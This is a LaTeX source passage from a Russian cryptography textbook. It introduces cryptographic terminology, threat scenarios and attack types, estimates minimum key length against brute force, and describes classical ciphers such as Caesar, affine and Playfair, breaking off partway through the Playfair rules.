При изучении криптографических методов защиты информации используются дополнительные определения. В целом науку о создании, анализе и использовании криптографических методов называют \emph{криптогологией}. Её разделяют на \emph{криптографию}, посвящённую разработке и применению криптографических методов, и \emph{криптоанализ}, который занимается поиском уязвимостей в существующих методах. Данное разделение на криптографию и криптоанализ (и, соответственно, разделение на \emph{криптографов} и \emph{криптоаналитиков}) условно, так как создать хороший криптографический метод невозможно без умения анализировать его потенциальные уязвимости, а поиск уязвимостей в современных криптографических методах нельзя осуществить без знания методов их построения.

Попытка криптоаналитика нарушить свойство криптографической системы по обеспечению защиты информации (например, получить информацию вопреки свойству обеспечения конфиденциальности) называется \emph{криптографической атакой} (\emph{криптоатакой}). Если данная попытка оказалась успешной, и свойство было нарушено или может быть нарушено в ближайшем будущем, то такое событие называется \emph{взломом криптосистемы} или \emph{вскрытием криптосистемы}. Конкретный метод криптографической атаки также называется \emph{криптоанализ} (например, линейный криптоанализ, дифференциальный криптоанализ, и~т.~д.). Криптосистема называется \emph{криптостойкой}, если число стандартных операций для её взлома превышает возможности современных вычислительных средств в течение всего времени ценности информации (до 100 лет).

Для многих криптографических примитивов существует атака полным перебором\index{атака!полным перебором}, либо аналогичная, которая подразумевает, что если выполнить очень большое количество определённых операций (по одной на каждое значение из области определения одного из аргументов криптографического метода), то один из результатов укажет непосредственно на способ взлома системы (например, укажет на ключ для нарушения конфиденциальности, обеспечиваемой алгоритмом шифрования, или на допустимый прообраз для функции хеширования, приводящий к нарушению аутентичности и целостности). В этом случае под \emph{взломом криптосистемы} понимается построение алгоритма криптоатаки с количеством операций меньшим, чем планировалось при создании этой криптосистемы (часто, но не всегда, это равно именно количеству операций при атаке полным перебором\footnote{Например, сложность построения второго прообраза для хеш-функций на основе конструкции Меркла~---~Дамгарда составляет $2^n / \left|M\right|$ операций, тогда как полный перебор -- $2^n$. См. раздел~\ref{section-stribog}}). Взлом криптосистемы – это не обязательно, например, реально осуществленное извлечение информации, так как количество операций может быть вычислительно недостижимым как в настоящее время, так и в течение всего времени защиты. То есть могут существовать системы, которые формально взломаны, но пока ещё являются криптостойкими.

Далее рассмотрим модель передачи информации с отдельными криптографическими методами.

% !TeX spellcheck = en_US
\section{Модель системы передачи с криптозащитой}

Простая модель системы передачи с криптозащитой представлена на рис. \ref{pic:Encrypt}, где введены следующие обозначения:
\begin{itemize}
    \item $A$ -- источник информации;
    \item $B$ -- получатель информации, легальный пользователь;
    \item $X$ -- сообщение до шифрования или \textbf{открытый текст}\index{открытый текст} (plaintext); $\set{M}$ -- множество всех возможных открытых текстов (от слова Message), $X \in \set{M}$;
    \item $K_1$ -- ключ шифрования\index{ключ!шифрования}; $\set{K}_E$ -- множество всех возможных ключей шифрования  (от слов Key и Encryption), $K_1 \in \set{K}_E$;
    \item $Y$ -- шифрованное  сообщение (или \textbf{шифротекст}\index{шифротекст}, или \textbf{шифрограмма}\index{шифрограмма}); $\set{C}$ -- множество всех возможных шифротекстов (от термина Cipher text), $Y \in \set{C}$;
    \item $K_2$ -- ключ расшифрования\index{ключ!расшифрования}; $\set{K}_D$  -- множество возможных ключей расшифрования  (от слов Key и Decryption),  зависящее от множества $\set{K}_E$, $K_2 \in \set{K}_D$.
\end{itemize}

\begin{figure}[h!]
	\centering
	\includegraphics[width=1.0\textwidth]{pic/scheme-of-cipher}
	\caption{Передача информации с криптозащитой\label{pic:Encrypt}}
\end{figure}

\textbf{Шифр}\index{шифр} -- это множество обратимых функций отображения $E_{K_1}$\index{функция!шифрования} множества открытых текстов $\set{M}$ на множество шифротекстов $\set{C}$, зависящих от выбранного ключа шифрования $K_1$ из множества $\set{K}_E$:
%обратимое отображение пары из элемента множества открытых текстов $\set{M}$ и элемента множества ключей шифрования $\set{K}_E$ в множество шифротекстов $\set{C}$:
\begin{equation}
    \label{eq:Encryption}
    Y = E_{K_1}(X), ~ X \in \set{M}, ~ K_1 \in \set{K}_E, ~ Y \in \set{C}.
\end{equation}
Можно сказать, что шифрование -- это обратимая функция двух аргументов: сообщения и ключа. Для каждого $K_1$ эта функция должна быть обратимой.  Обратимость -- основное условие шифрования, по которому каждому зашифрованному сообщению $Y$ и ключу $K$ соответствует одно исходное сообщение $X$. Легальный пользователь $B$ (на приемной стороне системы связи)  получает сообщение $Y$ и осуществляет процедуру \textbf{расшифрования}\index{расшифрование}.
Следует отличать шифрование от кодирования, кодирование это процесс сопоставления конкретным сообщениям строго определенной комбинации символов или сигналов, с целью повышения помехоустойчивости передаваемого сигнала.
Расшифрование --  это отображение множества шифротекстов $\set{C}$ в множество открытых текстов $\set{M}$ функцией $D_{K_2}$\index{функция!расшифрования}, зависящей от ключа расшифрования $K_2$ из множества $\set{K}_D$, являющейся обратной к функции $E_{K_1}$.
\begin{equation}
    \label{eq:Decryption}
    D_{K_2}(Y) = X, ~ Y \in \set{C}, ~ K_2 \in \set{K}_D, ~ X \in \set{M}.
\end{equation}

%Система передачи информации с криптозащитой называется \textbf{криптосистемой}\index{криптосистема}.(?????)

%В общем случае функция шифрования сюръективна и псевдослучайна, отображая один открытый текст в разные шифротексты. Если функция шифрования биективна, на практике ее инкапсулируют в другую функцию с целью добиться псевдослучайности шифрования одинаковых открытых текстов в разные шифротексты.

%Методы защиты информации зависят от возможных сценариев передачи. Рассмотрим несколько основных вариантов.
Рассмотрим  возможные сценарии вмешательства криптоаналитика и организации защиты информации от его действий.
Пусть  $A$ --  источник и $B$ -- получатель сообщений.

\begin{description}
    \item[Сценарий 1.] Пусть $E$ -- \textbf{пассивный} криптоаналитик\index{криптоаналитик!пассивный}, который может подслушивать передачу, но не может вмешиваться в процесс передачи. Из пассивности криптоаналитика следует,  что $Y = \widetilde{Y}$ и \textbf{целостность} информации обеспечена.

Цель защиты --- \textbf{обеспечение конфиденциальности}.

Средства защиты -- шифрование с помощью \emph{симметричных} или \emph{асимметричных } криптосистем.

Дополнительные задачи -- при большом числе пользователей должна быть решена задача \textbf{генерации и доставки секретных ключей} всем пользователям.

    \item[Сценарий 2.] Пусть $E$ -- \textbf{активный} криптоаналитик\index{криптоаналитик!активный}, который может изменять, удалять и вставлять сообщения или их части.

    Цель защиты -- \textbf{обеспечение конфиденциальности} и  \textbf{обеспечение целостности}.

Средства защиты --  шифрование и добавление \emph{кода аутентификации сообщения} (Message Authentication Code -- $\MAC$), позволяющего обнаружить нарушение целостности.

    \item[Сценарий 3.] Пусть $E$ -- активный криптоаналитик, который может изменять, удалять и вставлять сообщения или их части), дополнительно к этому легальные пользователи $A$ и $B$ не доверяют друг  другу.

Цель защиты -- \textbf{аутентификация }пользователей и документов.

Средства -- \emph{электронная  цифровая подпись} и протокол идентификации (аутентификации) пользователей.
\end{description}

%%Возможно вмешательство нелегального пользователя $E$, называемого \textbf{криптоаналитиком}.
%%
%%
%%Если $X = \widetilde{X}$, то вмешательство криптоаналитика  $E$ не изменило передаваемое сообщение, и \textbf{целостность} информации обеспечена. Если криптоаналитик не получил информацию, содержащуюся в сообщении, то обеспечена \textbf{конфиденциальность}.
%%
%%Если в этой системе возможна двусторонняя передача, то есть от $A$ к $B$ и от $B$ к $A$, то говорят о взаимном обмене информацией между легальными пользователями.
%
%Секретность информации в современных шифрах обеспечивается секретным ключом, в то время как сам алгоритм криптосистемы является общеизвестным. Исторический опыт, например, система шифрования A5/1 в GSM, показывает, что секретность алгоритма шифрования \emph{ослабляет} криптостойкость шифра, а не увеличивает, из-за того, что система становится малоизученной.


\section{Классификация криптографических механизмов}

\subsection{Симметричные и асимметричные криптосистемы}
\selectlanguage{russian}

Криптографические системы и шифры можно разделить на две большие группы в зависимости от принципа использования ключей для шифрования и расшифрования.

Если для шифрования и расшифрования используется один и тот же ключ $K$ либо если получение ключа расшифрования $K_2$ из ключа шифрования $K_1$ является тривиальной операцией, то такая криптосистема называется \emph{симметричной}\index{криптосистема!симметричная}. В зависимости от объёма данных, обрабатываемых за одну операцию шифрования, симметричные шифры делятся на \emph{блочные}\index{шифр!блочный}, в которых за одну операцию шифрования происходит преобразование одного блока данных (32 бита, 64, 128 или больше), и \emph{потоковые}\index{шифр!потоковый}, в которых работают с каждым символом открытого текста по отдельности (например, с 1 битом или 1 байтом). Примеры блочных шифров рассмотрены в главе~\ref{chapter-block-ciphers}, а потоковых -- в главе~\ref{chapter-stream-ciphers}.

Использование блочного шифра подразумевает разделение открытого текста на блоки одинаковой длины, к каждому из которых применяется функция шифрования, причём результат шифрования следующего блока может зависеть от предыдущего\footnote{Строго говоря, функция шифрования может применяться не только к самому блоку данных, но и к другим параметрам текущего отрывка открытого текста. Например, к его позиции в тексте (\langen{offset}), либо даже к результату шифрования предыдущего блока.}. Это регулируется \emph{режимом работы блочного шифра}. Примеры нескольких таких режимов рассмотрены в разделе~\ref{section-block-chaining}.

Если ключ расшифрования получить из ключа шифрования вычислительно сложно, то такие криптосистемы называют криптосистемами \emph{с открытым ключом}\index{криптосистема!с открытым ключом} или \emph{асимметричными} криптосистемами\index{криптосистема!асимметричная}. Некоторые из них рассмотрены в главе~\ref{chapter-public-key}. Все используемые на сегодняшний день асимметричные криптосистемы работают с открытым текстом, составляющим несколько сотен или тысяч бит, поэтому классификация таких систем по объёму обрабатываемых за одну операцию данных не производится.

Алгоритм, который выполняет отображение аргумента произвольной длины в значение фиксированной длины, называется \emph{хэш-функцией}. Если для такой хэш-функции выполняются определённые свойства, например, устойчивости к поиску коллизий, то это уже \emph{криптографическая хэш-функция}. Такие функции рассмотрены в главе~\ref{chapter-hash-functions}.

Для проверки аутентичности сообщения с использованием общего секретного ключа отправителя и получателя используется \emph{код аутентификации [сообщения]} (\emph{имитовставка}, \langen{message authentication code, MAC}), рассмотренный в разделе~\ref{section-MAC}. Его аналогом в криптосистемах с открытым ключом является \emph{электронная подпись}, алгоритмы генерации и проверки которой рассмотрены в главе~\ref{chapter-public-key} вместе с алгоритмами асимметричного шифрования.

\subsection{Шифры замены и перестановки}

Шифры по способу преобразования открытого текста в шифротекст разделяются на шифры замены и шифры перестановки.

\subsubsection{Шифры замены}
\selectlanguage{russian}

В шифрах \textbf{замены} символы одного алфавита заменяются символами другого алфавита обратимым преобразованием. В последовательности открытого текста символы входного алфавита заменяются на символы выходного алфавита. Такие шифры применяются как в симметричных, так и в асимметричных криптосистемах. Если при преобразовании используются однозначные функции, то шифры замены называются \textbf{однозначными} шифрами замены. Если используются многозначные функции, то шифры называются \textbf{многозначными} шифрами замены (омофонами).

В \textbf{омофоне}\index{омофон} символам входного алфавита ставятся в соответствие непересекающиеся подмножества символов выходного алфавита. Количество символов в каждом подмножестве замены пропорционально частоте встречаемости символа открытого текста. Таким образом, омофон создаёт равномерное распределение символов шифротекста, и прямой частотный криптоанализ невозможен. При шифровании омофонами символ входного алфавита заменяется на случайно выбранный из подмножества замены.

Шифры бывают \textbf{моноалфавитные}, когда для шифрования используется одно отображение входного алфавита в выходной алфавит. Если алфавит на входе и выходе одинаков, и его размер (число символов) равен $D$, тогда количество всевозможных моноалфавитных шифров замены такого типа равно $D!$.

\textbf{Полиалфавитный} шифр задаётся множеством различных вариантов отображения входного алфавита на выходной алфавит. Шифры замены могут быть как потоковыми, так и блочными. Однозначный полиалфавитный потоковый шифр замены называется \textbf{шифром гаммирования}\index{шифр!гаммирования}. Символом алфавита может быть, например, 256-битовое слово, а размер алфавита~--- $2^{256}$ соответственно.


\subsubsection{Шифры перестановки}
\selectlanguage{russian}

Шифры \textbf{перестановки} реализуются следующим образом. Берётся открытый текст, например буквенный, и разделяется на блоки определённой длины $x_1, x_2, \dots, x_m$. Затем осуществляется перестановка позиций блока (вместе с символами). Перестановки могут быть однократные и многократные. Частный случай перестановки ~--- сдвиг. Приведём пример:
\begin{center}
    секрет $\xrightarrow{\text{сдвиг}}$ ретсек $\xrightarrow{\text{перестановка}}$ рскете.
\end{center}
Ключ такого шифра указывает изменение порядка номеров позиций блока при шифровании и расшифровании.

Существуют так называемые \textbf{маршрутные перестановки}. Используется какая-либо геометрическая фигура, например прямоугольник. Запись открытого текста ведётся по одному \emph{маршруту}, например по строкам, а считывание для шифрования осуществляется по другому маршруту, например по столбцам. Ключ шифра определяет эти маршруты.
В случае, когда рассматривается перестановка блока текста фиксированной длины, перестановку можно рассматривать как замену.

В полиалфавитных шифрах при шифровании открытый текст разбивается на блоки (последовательности) длины $n$, где $n$ ~--- \textbf{период}. Этот параметр выбирает \emph{криптограф} и держит его в секрете.

Поясним процедуру шифрования полиалфавитным шифром. Запишем шифруемое сообщение в матрицу по столбцам определённой длины. Пусть открытый текст таков: <<Игры различаются по содержанию, характерным особенностям, а также по тому, какое место они занимают в жизни детей>>. Зададим $n=4$ и запишем этот текст в матрицу размера $(4 \times 24)$:

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{24}{c|}}
    \hline
    и&р&и&т&о&е&н&а&т&ы&о&н&я&а&п&м&к&е&о&а&а&ж&и&е \\
    г&а&ч&с&с&р&и&р&е&м&б&о&м&к&о&у&о&с&н&н&ю&и&д&й \\
    р&з&а&я&о&ж&ю&а&р&о&е&с&а&ж&т&к&е&т&и&и&т&з&е& \\
    ы&л&ю&п&д&а&х&к&н&с&н&т&т&е&о&а&м&о&з&м&в&н&т& \\
    \hline
\end{tabular} } \end{center}

Выбираем $4$ различных моноалфавитных шифра.

Первую строку

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{24}{c|}}
    \hline
    и&р&и&т&о&е&н&а&т&ы&о&н&я&а&п&м&к&е&о&а&а&ж&и&е \\
    \hline
\end{tabular} } \end{center}

шифруем, используя первый шифр. Вторую строку

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{24}{c|}}
    \hline
    г&а&ч&с&с&р&и&р&е&м&б&о&м&к&о&у&о&с&н&н&ю&и&д&й \\
    \hline
\end{tabular} } \end{center}

шифруем, используя второй шифр, и т.~д.

Выполняя расшифрование, легальный пользователь знает период. Он записывает принятую шифрограмму по строкам в матрицу с длиной строки, равной периоду, к каждому столбцу применяет соответствующий ключ и расшифровывает сообщение, зная соответствующие шифры.

Шифры перестановки можно рассматривать как частный случай шифров замены, если отождествить один блок перестановки с одним символом большого алфавита.


\subsubsection{Композиционные шифры}
\selectlanguage{russian}

Почти все современные шифры являются \textbf{композиционными}~\cite{AlZKCh:2001}. В них применяются несколько различных методов шифрования к одному и тому же открытому тексту. Другое их название~--- \textbf{составные шифры}. Впервые понятие составных шифров было введено в работе Клода Шеннона (\langen{Claude Elwood Shannon}).

В современных криптосистемах шифры замены и перестановок используются многократно, образуя составные (композиционные) шифры.



\subsection{Примеры современных криптографических примитивов}

Приведём примеры названий некоторых современных криптографических примитивов, из которых строят системы защиты информации.
\begin{itemize}
    \item DES\index{шифр!DES}, AES, ГОСТ 28147-89, Blowfish\index{шифр!Blowfish}, RC5\index{шифр!RC5}, RC6\index{шифр!RC6} -- блочные симметричные шифры, скорость обработки -- десятки мегабайт в секунду.
    \item A5/1, A5/2, A5/3\index{шифр!A5}, RC4\index{шифр!RC4} -- потоковые симметричные шифры с высокой скоростью. Семейство A5 применяется в мобильной связи GSM, RC4 -- в компьютерных сетях для SSL-соединения между браузером и веб-сервером.
    \item RSA\index{шифр!RSA} -- криптосистема с открытым ключом для шифрования.
    \item RSA\index{электронная подпись!RSA}, DSA\index{электронная подпись!DSA}, ГОСТ Р 34.10-2001\index{электронная подпись!ГОСТ Р 34.10-2001} -- криптосистемы с открытым ключом для электронной подписи.
    \item MD5\index{хэш-функция!MD5}, SHA-1\index{хэш-функция!SHA-1}, SHA-2\index{хэш-функция!SHA-2}, ГОСТ Р 34.11-94\index{хэш-функция!ГОСТ Р 34.11-94} -- криптографические хэш-функции.
\end{itemize}

\section{Методы криптоанализа и типы атак}
\selectlanguage{russian}

Нелегальный пользователь-криптоаналитик получает информацию путем дешифрования. Сложность этой процедуры определяется числом стандартных операций, которые надо выполнить для достижения цели. \emph{Двоичной сложностью}\index{сложность!двоичная} (или битовой сложностью) алгоритма называется количество двоичных операций, которые необходимо выполнить для его завершения.
% Наиболее сложным является дешифрование полиалфавитных шифров.

Попытка криптоаналитика $E$ получить информацию называется \emph{атакой} или криптоатакой\index{атака}. Как правило, легальным пользователям нужно обеспечить защиту информации на протяжении от нескольких дней до 100 лет. Если попытка атаки оказалась удачной для нелегального пользователя $E$, и информация получена или может быть получена в ближайшем будущем, то такое событие называется  \emph{взломом криптосистемы}\index{взлом криптосистемы} или \emph{вскрытием криптосистемы}. Метод вскрытия криптосистемы называется \emph{криптоанализом}\index{криптоанализ}. Криптосистема называется \emph{криптостойкой}\index{криптостойкость}, если число стандартных операций для ее взлома превышает возможности современных вычислительных средств в течение всего времени ценности информации (до 100 лет).

В общем случае, в криптоанализе под \emph{взломом} криптосистемы понимается построение алгоритма криптоатаки для получения доступа к информации с количеством операций, меньшим, чем планировалось при создании этой криптосистемы. Взлом криптосистемы -- это не обязательно реально осуществленное извлечение информации, так как количество операций для извлечения информации может быть вычислительно недостижимым как в настоящее время, так и в течение всего времени защиты.
%, но предполагается достижимым в будущем.

Рассмотрим основные сценарии работы криптоаналитика $E$. В первом сценарии криптоаналитик может осуществлять подслушивание и (или) перехват сообщений. Его вмешательство не нарушает целостности информации: $Y=\widetilde{Y}$. Эта роль криптоаналитика называется \emph{пассивной}. Так как он получает доступ к информации, то здесь нарушается конфиденциальность.

Во втором сценарии роль криптоаналитика \emph{активная}. Он может подслушивать, перехватывать сообщения и преобразовывать их по своему усмотрению: задерживать, искажать с помощью перестановок пакетов, устраивать обрыв связи, создавать новые сообщения и т.~п. Так что в этом случае выполняется условие $Y \neq \widetilde{Y}$. Это значит, что одновременно нарушается целостность и конфиденциальность передаваемой информации.

Приведём примеры пассивных и активных атак.
\begin{itemize}
    \item Атака <<\emph{человек посередине}>>\index{атака!<<человек посередине>>} (\langen{man-in-the-middle}) подразумевает криптоаналитика, который разрывает канал связи, встраиваясь между $A$ и $B$, получает сообщения от $A$ и от $B$, а от себя отправляет новые, фальсифицированные сообщения. В результате $A$ и $B$ не замечают, что общаются с $E$, а не друг с другом.
    \item Атака \emph{воспроизведения}\index{атака!воспроизведения} (\langen{replay attack}) -- когда криптоаналитик может записывать и в будущем воспроизводить шифротексты, имитируя легального пользователя.
    \item Атака на \emph{различение} сообщений\index{атака!на различение} означает, что криптоаналитик, наблюдая одинаковые шифротексты, может извлечь информацию об идентичности исходных открытых текстов.
    \item Атака на \emph{расширение} сообщений\index{атака!на расширение} означает, что криптоаналитик может дополнить шифротекст осмысленной информацией без знания секретного ключа.
    \item \emph{Фальсификация} шифротекстов\index{атака!фальсификацией} криптоаналитиком без знания секретного ключа.
\end{itemize}

Часто для нахождения секретного ключа криптоатаки строят в предположениях о доступности дополнительной информации. Приведём примеры.
\begin{itemize}
    \item Атака на основе известного открытого текста\index{атака!с известным открытым текстом} (\langen{chosen plaintext attack, CPA}) предполагает возможность криптоаналитику выбирать открытый текст и получать для него соответствующий шифротекст.
    \item Атака на основе известного шифротекста\index{атака!с известным шифротекстом} (\langen{chosen ciphertext attack, CCA}) предполагает, что криптоаналитик имеет возможность выбирать шифротекст и получать для него соответствующий открытый текст.
\end{itemize}

Обязательным требованием к современным криптосистемам является устойчивость ко всем известным типам атак: пассивным, активным и с дополнительной информацией.


%Приведём примеры возможных вариантов работы активного криптоаналитика.
%\begin{itemize}
%\item Криптоаналитик имеет $m$ шифрованных сообщений $Y_{1},Y_{2},\ldots Y_{m}$ и пытается определить ключ или прочитать открытый текст $X_{1},X_{2},\ldots X_{m}.$
%\item Криптоаналитик имеет несколько пар открытого и шифрованного текстов
%
%$(Y_{1},X_{1}),(Y_{2}X_{2}),\ldots (Y_{m}X_{m})$ и пытается дешифровать остальной текст или определить алгоритм шифрования или определить ключ.
%\item
%\item
%\item
%\end{itemize}

Для защиты информации от активного криптоаналитика и обеспечения целостности дополнительно к шифрованию сообщений применяют имитовставку\index{имитовставка}. Для неё используют обозначение $\MAC$ (\langen{message authentication code}). Как правило, $\MAC$ строится на основе хэш-функций, которые будут описаны далее.

Существуют ситуации, когда пользователи $A$ и $B$ не доверяют друг другу. Например, $A$ -- банк, $B$ -- получатель денег. $A$ утверждает, что деньги переведены, $B$ утверждает, что не переведены. Решение задачи аутентификации и неотрицаемости состоит в обеспечении \emph{электронной подписью}\index{электронная подпись} каждого из абонентов. Предварительно надо решить задачу о генерировании и распределении секретных ключей.

В общем случае системы защиты информации должны обеспечивать:
\begin{itemize}
    \item конфиденциальность (защита от наблюдения),
    \item целостность (защита от изменения),
    \item аутентификацию (защита от фальсификации пользователя и сообщений),
    \item доказательство авторства информации (доказательство авторства и защита от его отрицания)
\end{itemize}
как со стороны получателя, так и со стороны отправителя.

Важным критерием для выбора степени защиты является сравнение стоимости реализации взлома для получения информации и экономического эффекта от владения ею. Очевидно, что если стоимость взлома превышает ценность информации, взлом нецелесообразен.

%Сценарии защиты информации
%   Сценарий 1. A -- передающая сторона. B -- принимающая сторона. E -- пассивный
%криптоаналитик, который может подслушивать передачу, но не может вмешиваться
%в процесс передачи. Цель защиты: обеспечение конфиденциальности. Средства
%-- методы шифрования с секретным ключом (симметричные системы шифрования)
%и методы шифрования с открытым ключом (асимметричные системы шифрования).
%Сценарий 2. E -- активный криптоаналитик, который может изменять, удалять и вставлять
%сообщения или их части. Цель защиты -- обеспечение конфиденциальности (не
%всегда) и обеспечение целостности. Средства -- методы шифрования и добавление
%имитовставки\index{имитовставка} (Message Autentication Code -- $\MAC$).
%Сценарий 3. A и B не доверяют друг другу. Цель защиты -- аутентификация пользователя.
%Средства -- электронная подпись.


\section{Минимальные длины ключей}
\selectlanguage{russian}

Оценим минимальную битовую длину ключа, необходимую для обеспечения криптостойкости, то есть защиты криптосистемы от атаки полным перебором всех возможных секретных ключей. Сделаем такие предположения:

\begin{itemize}
    \item одно ядро процессора выполняет $R = 10^7 \approx 2^{23}$ шифрований и расшифрований в секунду;
    \item вычислительная сеть состоит из $n = 10^3 \approx 2^{10}$ узлов;
    \item в каждом узле имеется $C = 16 = 2^4$ ядер процессора;
    \item нужно обеспечить защиту данных на $Y = 100$ лет, то есть на $S \approx 2^{32}$ с;
    \item выполняется закон Мура об удвоении вычислительной производительности на единицу стоимости каждые 2 года, то есть производительность вырастет в $M = 2^{Y/2} \approx 2^{50}$ раз.
\end{itemize}

Число переборов $N$ примерно равно
    \[ N \approx R \cdot n \cdot C \cdot S \cdot M, \]
    \[ N \approx 2^{23} \cdot 2^{10} \cdot 2^{4} \cdot 2^{32} \cdot 2^{50} = 2^{23+10+4+32+50} = 2^{119}. \]

Следовательно, минимально допустимая длина ключа для защиты от атаки перебором на 100 лет составляет порядка
    \[ \log_2 N \approx 119\text{ бит}. \]

Например, предыдущий американский стандарт шифрования DES с 56-битовым секретным ключом был впервые взломан в 1997 году перебором секретных ключей интернет-сетью из 78~000 частных компьютеров, производивших фоновые вычисления по проекту \textsc{DesChal}.



\chapter{Классические шифры}

В главе приведены наиболее известные \emph{классические} шифры, которыми можно было пользоваться до появления роторных машин. К ним относятся такие шифры, как: шифр Цезаря\index{шифр!Цезаря}, шифр Плейфера\index{шифр!Плейфера}, шифр Хилла\index{шифр!Хилла}, шифр Виженера\index{шифр!Виженера}. Они наглядно демонстрируют различные классы шифров.

\section{Моноалфавитные шифры}\label{section-substitution-cipher}\index{шифр!моноалфавитный|(}
\selectlanguage{russian}

Преобразования открытого текста в шифртекст могут быть описаны различными функциями. Если функция преобразования является аддитивной, то и соответствующий шифр называется \emph{аддитивным}. Если это преобразование является аффинным, то шифр называется \emph{аффинным}.

\subsection{Шифр Цезаря}\label{section-caesar-cipher}\index{шифр!Цезаря}

Известным примером простого шифра замены является \emph{шифр Цезаря}. Процедура шифрования состоит в следующем (рис.~\ref{fig:caesar}). Записывают все буквы латинского алфавита в стандартном порядке:
    \[ A B C D E \dots Z. \]
Делают циклический сдвиг влево, например на три буквы, и записывают все буквы во втором ряду, начиная с четвёртой буквы $D$. Буквы первого ряда заменяют соответствующими (как показано стрелкой на рисунке) буквами второго ряда. После такой замены слова не распознаются теми, кто не знает ключа. Ключом $K$ является первый символ сдвинутого алфавита.

\begin{figure}[thb]
\[ \begin{array}{ccccccccccc}
    \text{A} & \text{B} & \text{C} & \text{D} & \text{E} & & \text{V} & \text{W} & \text{X} & \text{Y} & \text{Z} \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    \text{D} & \text{E} & \text{F} & \text{G} & \text{H} & & \text{Y} & \text{Z} & \text{A} & \text{B} & \text{C} \\
\end{array} \]
	\caption{Шифр Цезаря\index{шифр!Цезаря}}
	\label{fig:caesar}
\end{figure}

\example
В русском языке сообщение \texttt{изучайтекриптографию} посредством шифрования с ключом $K = \text{\texttt{г}}$ (сдвиг вправо на 3 символа по алфавиту) преобразуется в \texttt{лкцъгмхзнултхсёугчлб}.
\exampleend

Недостатком любого шифра замены является то, что в шифрованном тексте сохраняются все частоты появления букв открытого текста и корреляционные связи между буквами. Они существуют в каждом языке. Например, в русском языке чаще всего встречаются буквы $A$ и $O$. Для дешифрования криптоаналитик имеет возможность прочитать открытый текст, используя частотный анализ букв шифртекста. Для <<взлома>> шифра Цезаря достаточно найти одну пару букв -- одну замену.

\subsection{Аддитивный шифр перестановки}\index{шифр!перестановки аддитивный}

Рисунок~\ref{fig:caesar-additiv} поясняет \emph{аддитивный шифр} перестановки на алфавите. Все 26 букв латинского алфавита нумеруют по порядку от 0 до 25. Затем номер буквы меняют в соответствии с уравнением:
    \[ y = x + b \mod 26, \]
где $x$ -- прежний номер, $y$ -- новый номер, $b$ -- заданное целое число, определяющее сдвиг номера и известное только легальным пользователям. Очевидно, что шифр Цезаря является примером аддитивного шифра.

\begin{figure}[thb]
\[ \begin{array}{ccccccccccc}
    \text{A} & \text{B} & \text{C} & \text{D} & \text{E} & & \text{V} & \text{W} & \text{X} & \text{Y} & \text{Z} \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    0 & 1 & 2 & 3 & 4 & & 21 & 22 & 23 & 24 & 25 \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    3 & 4 & 5 & 6 & 7 & & 24 & 25 & 0 & 1 & 2 \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    \text{D} & \text{E} & \text{F} & \text{G} & \text{H} & & \text{Y} & \text{Z} & \text{A} & \text{B} & \text{C} \\
\end{array} \]
	\caption{Шифр Цезаря\index{шифр!Цезаря} как пример аддитивного шифра\index{шифр!перестановки аддитивный}}
	\label{fig:caesar-additiv}
\end{figure}

\subsection{Аффинный шифр}\label{section-affine-cipher}\index{шифр!афинный}

Аддитивный шифр является частным случаем \emph{аффинного шифра}. Правило шифрования сообщения имеет вид
    \[ y = a x + b \mod n. \]
Здесь производится умножение номера символа $x$ из алфавита, $x\in \set\{ 0, 1, 2, \dots, N \leq n-1 \}$, на заданное целое число $a$ и сложение с числом $b$ по модулю целого числа $n$. Ключом является $K = (a, b)$.

Расшифрование осуществляется по формуле
    \[ x = (y - b) a^{-1} \mod n. \]

Чтобы обеспечить обратимость в этом шифре, должен существовать единственный обратный элемент $a^{-1}$ по модулю $n$. Для этого должно выполняться условие $\gcd(a,n) = 1$, то есть $a$ и $n$ должны быть взаимно простыми числами ($\gcd$ -- обозначение термина с английского greatest common divisor -- наибольший общий делитель, $\text{НОД}$). Очевидно, что для <<взлома>> такого шифра достаточно найти две пары букв -- две замены.

\index{шифр!моноалфавитный|)}


\section{Биграммные шифры замены}\index{шифр!биграммный}
\selectlanguage{russian}

Если при шифровании преобразуются по две буквы открытого текста, то такой шифр называется \emph{биграммным}\index{шифр!биграммный} шифром замены. Первый биграммный шифр был изобретён аббатом Иоганном Тритемием и опубликован в 1508-ом году. Другой биграммный шифр изобретён в 1854 году Чарльзом Витстоном. Лорд Лайон Плейфер (\langen{Lyon Playfair}) внедрил этот шифр в государственных службах Великобритании, и шифр был назван шифром Плейфера\index{шифр!Плейфера}.

Опишем шифр Плейфера\index{шифр!Плейфера}. Составляется таблица для английского алфавита (буквы \texttt{I}, \texttt{J} отождествляются), в которую заносятся буквы перемешанного алфавита, например, в виде таблицы, представленной ниже. Часто перемешивание алфавита реализуется с помощью начального слова, в котором отбрасываются повторяющиеся символы. В нашем примере начальное слово \texttt{playfair}. Таблица имеет вид:

\begin{center}
    \begin{tabular}{ccccc}
        p & l & a & y & f  \\
        i & r & b & c & d  \\
        e & g & h & k & m  \\
        n & o & q & s & t  \\
        u & v & w & x & z.  \\
    \end{tabular}
\end{center}

Буквы открытого текста разбиваются на пары. Правила шифрования каждой пары состоят в следующем.

\begin{itemize}
    \item Если буквы пары не лежат в одной строке или в одном столбце таблицы, то они заменяются буквами, образующими с исходными буквами вершины прямоугольника. Первой букве пары соответствует буква таблицы, находящаяся в том же столбце. Пара букв открытого текста \texttt{we} заменяется двумя буквами таблицы \texttt{hu}. Пара букв открытого текста \texttt{ew} заменяется двумя буквами таблицы \texttt{uh}.
    \item Если буквы пары открытого текста расположены в одной строке таблицы, то каждая буква заменяется соседней справа буквой таблицы. Например, пара \texttt{gk} заменяется двумя буквами \texttt{hm}. Если одна из этих букв -- крайняя правая в таблице, то её <<правым соседом>> считается крайняя левая в этой строке. Так, пара \texttt{to} заменяется буквами \texttt{nq}.
